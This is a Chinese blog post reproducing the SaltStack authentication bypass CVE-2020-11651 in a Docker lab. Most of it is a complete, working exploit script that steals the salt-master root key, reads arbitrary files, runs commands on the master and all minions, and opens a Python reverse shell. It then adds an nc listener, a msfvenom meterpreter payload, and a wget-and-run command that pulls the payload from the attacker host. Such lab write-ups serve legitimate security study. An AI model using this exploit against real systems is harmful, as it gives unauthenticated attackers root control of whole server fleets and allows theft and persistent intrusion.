




# CVE-2020-11651 漏洞利用复现 - 一个李长兴 - 博客园

> 原文：[`www.cnblogs.com/Ziggy29/p/14708871.html`](https://www.cnblogs.com/Ziggy29/p/14708871.html)

# CVE-2020-11651 漏洞利用复现

> 机器 系统 ip
> 
> 靶机 Ubuntu18.04 192.168.31.215
> 
> 攻击机 kali 192.168.31.92

## 概述

**SaltStack**:是基于 Python 开发的一套 C/S 架构配置管理工具，是一个服务器基础架构集中化管理平台，具备配置管理、远程执行、监控等功能，基于 Python 语言实现，结合轻量级消息队列（ZeroMQ）与 Python 第三方模块（Pyzmq、PyCrypto、Pyjinjia2、python-msgpack 和 PyYAML 等）构建。

**漏洞原因：**SaltStack 的 ClearFuncs 类处理未经身份验证的请求，并且无意中公开了 send_pub()方法，该方法可用于直接在 master 服务器上创建消息队列，此类消息可用于触发 minions 以 root 身份运行任意命令。
ClearFuncs 类还公开了 _prep_auth_info()方法，该方法返回用于验证 master 服务器上本地 root 用户命令的“root key”。可以使用此“root key”在主服务器上远程调用管理命令。这种无意的暴露为远程未经身份验证的攻击者提供了与 salt-master 相同的根访问权限。因此未经身份验证的远程攻击者可以使用此漏洞执行任意命令。

**利用方法：**认证绕过漏洞，攻击者通过构造恶意请求，绕过 Salt Master 的验证逻辑，调用相关未授权函数功能，达到远程命令执行目的。

## 配置靶机

配置靶机 docker,原仓库在 GitHub 上,自己导入 gitee 仓库(gitee 上先前别人导入的库没有 saltstack),如果不能开启 docker 请加 sudo

```
git clone https://gitee.com/sin29/vulhub.git
cd vulhub/saltstack/CVE-2020-11651
docker-compose up -d
docker ps 
```



在 kali 端 pip 安装 2019.2.4 以前版本 salt.由于 PyYAML 这里会报错，所以添加参数`--ignore-installed PyYAML`忽略 PyYAML,`pip3 install salt==2019.2.3 --ignore-installed PyYAML` ,如果速度较慢可以在后面加参数使用清华源`pip3 install -i https://pypi.tuna.tsinghua.edu.cn/simple salt==2019.2.3`

执行 python 文件内容如下:

```
# BASE https://github.com/bravery9/SaltStack-Exp
# 微信公众号：台下言书
# -*- coding:utf-8 -*- -
from __future__ import absolute_import, print_function, unicode_literals
import argparse
import os
import sys
import datetime

import salt
import salt.version
import salt.transport.client
import salt.exceptions

DEBUG = False

def init_minion(master_ip, master_port):
    minion_config = {
        'transport': 'zeromq',
        'pki_dir': '/tmp',
        'id': 'root',
        'log_level': 'debug',
        'master_ip': master_ip,
        'master_port': master_port,
        'auth_timeout': 5,
        'auth_tries': 1,
        'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    return salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')

def check_salt_version():
    print("[+] Salt 版本: {}".format(salt.version.__version__))

    vi = salt.version.__version_info__

    if (vi < (2019, 2, 4) or (3000,) <= vi < (3000, 2)):
        return True
    else:
        return False

def check_connection(master_ip, master_port, channel):
    print("[+] Checking salt-master ({}:{}) status... ".format(master_ip, master_port), end='')
    sys.stdout.flush()
    try:
        channel.send({'cmd': 'ping'}, timeout=2)
        print('\033[1;32m 可以连接\033[0m')
    except salt.exceptions.SaltReqTimeoutError:
        print("\033[1;31m 无法连接\033[0m")
        sys.exit(1)

def check_CVE_2020_11651(channel):
    sys.stdout.flush()
    # try to evil
    try:
        rets = channel.send({'cmd': '_prep_auth_info'}, timeout=3)
    except salt.exceptions.SaltReqTimeoutError:
        print("\033[1;32m 不存在漏洞\033[0m")
    except:
        print("\033[1;32m 未知错误\033[0m")
        raise
    else:
        pass
    finally:
        if rets:
            root_key = rets[2]['root']
            print("\033[1;31m 存在漏洞\033[0m")
            return root_key

    return None

def pwn_read_file(channel, root_key, path, master_ip):
    # print("[+] Attemping to read {} from {}".format(path, master_ip))
    sys.stdout.flush()

    msg = {
        'key': root_key,
        'cmd': 'wheel',
        'fun': 'file_roots.read',
        'path': path,
        'saltenv': 'base',
    }

    rets = channel.send(msg, timeout=3)
    print(rets['data']['return'][0][path])

def pwn_getshell(channel, root_key, LHOST, LPORT):
    msg = {"key": root_key,
           "cmd": "runner",
           'fun': 'salt.cmd',
           "kwarg": {
               "fun": "cmd.exec_code",
               "lang": "python3",
               "code": "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{}\",{}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);".format(
                   LHOST, LPORT)
           },
           'jid': '20200504042611133934',
           'user': 'sudo_user',
           '_stamp': '2020-05-04T04:26:13.609688'}

    try:
        response = channel.send(msg, timeout=3)
        print("Got response for attempting master shell: " + str(response) + ". Looks promising!")
        return True
    except:
        print("something failed")
        return False

def pwn_exec(channel, root_key, exec_cmd, master_or_minions):
    if master_or_minions == "master":
        msg = {"key": root_key,
               "cmd": "runner",
               'fun': 'salt.cmd',
               "kwarg": {
                   "fun": "cmd.exec_code",
                   "lang": "python3",
                   "code": "import subprocess;subprocess.call('{}',shell=True)".format(exec_cmd)
               },
               'jid': '20200504042611133934',
               'user': 'sudo_user',
               '_stamp': '2020-05-04T04:26:13.609688'}

        try:
            response = channel.send(msg, timeout=3)
            print("Got response for attempting master shell: " + str(response) + ". Looks promising!")
            return True
        except:
            print("something failed")
            return False

    if master_or_minions == "minions":
        print("Sending command to all minions on master")
        jid = "{0:%Y%m%d%H%M%S%f}".format(datetime.datetime.utcnow())
        cmd = "/bin/sh -c '{0}'".format(exec_cmd)

        msg = {'cmd': "_send_pub", "fun": "cmd.run", "arg": [cmd], "tgt": "*", "ret": "", "tgt_type": "glob",
               "user": "root", "jid": jid}

        try:
            response = channel.send(msg, timeout=3)
            if response == None:
                return True
            else:
                return False
        except:
            return False

#####################################

master_ip=input('目标 IP：')
master_port='4506'
channel = init_minion(master_ip, master_port)
try:
    root_key = check_CVE_2020_11651(channel)
except:
    pass
while master_ip!='':
    print('1.测试 POC  2.读取文件  3.执行命令(无回显)  4.反弹 shell  5.退出')

    whattype=input('请选择：')
    if whattype=='1':
        check_salt_version()  # 检查 salt 版本
        check_connection(master_ip, master_port, channel)  # 检查连接
        root_key = check_CVE_2020_11651(channel)  # 读取 root key
        print(root_key)
    elif whattype=='2':
        path = input('读取路径：')
        try:
            pwn_read_file(channel, root_key, path, master_ip)  # 读取文件
        except:
            print('文件不存在')
    elif whattype=='3':
        print('1.master   2.minions')
        exectype = input('选择方式：')
        if exectype=='1':
            master_or_minions='master'
        elif exectype=='2':
            master_or_minions = 'minions'
        exec_cmd = input('输入命令：')
        pwn_exec(channel, root_key, exec_cmd, master_or_minions)  # 执行命令
    elif whattype=='4':
        LHOST = input('反弹到 IP：')
        LPORT = input('反弹端口：')
        pwn_getshell(channel, root_key, LHOST, LPORT)  # 反弹 shell
    elif whattype=='5':
        exit() 
```

之后可能会出现连接不上的情况,我又更新了一遍 salt 版本,windows 端用 tcping 扫描 4505、4506 端口显示开放,并在靶机上`netstat -an`确认 4505、4506 端口开放后，又能扫出漏洞了


直接输入 4 反弹可获得 shell,输入攻击机 ip 和未占用端口,再开一个终端,输入`nc -lvvp 11214` ,能够进入 shell


## msf

由于我们可以在靶机中执行命令,所以可以将木马传入靶机,并执行木马程序回连攻击机,就可以用 msf 干些别的事了

输入`/etc/init.d/apache2 start`打开攻击机 Apache,输入`service apache2 status`查看 Apache 是否开启



使用 msf 在攻击机中生成木马输入`msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.31.92 LPORT=11214 -i 3 -f elf -o test`


向靶机传入`'wget http://192.168.31.92/test|./test'`指令使其从攻击机上的 Apache 服务器上下载木马


由于没有执行权限,所以再使用 chmod 加权限

*PS:以上传入指令的操作也可以直接在 shell 中输入指令*


msf 控制台开启监听,并执行 test,连接成果,可使用 sys info 查看系统版本


输入 ps 查看 docker 内进程,与靶机内进程号对比



通过这个 exp,还能直接找到 root keyhttps://mp.weixin.qq.com/s/Hq270_2axkWqtyabS3UnRw,不过 docker 每次开启后 root key 好像会变化

执行命令`python3 CVE-2020-11651_5.py --master 192.168.31.215 -r /etc/passwd`



## 参考资料

[SaltStack 认证绕过漏洞（CVE-2020-11651）复现](https://www.freebuf.com/vuls/260157.html)

[CVE-2020-11651：SaltStack 认证绕过复现](https://www.cnblogs.com/Sylon/p/12935381.html)

[如何查看 docker 容器内的进程](https://www.west.cn/docs/66474.html)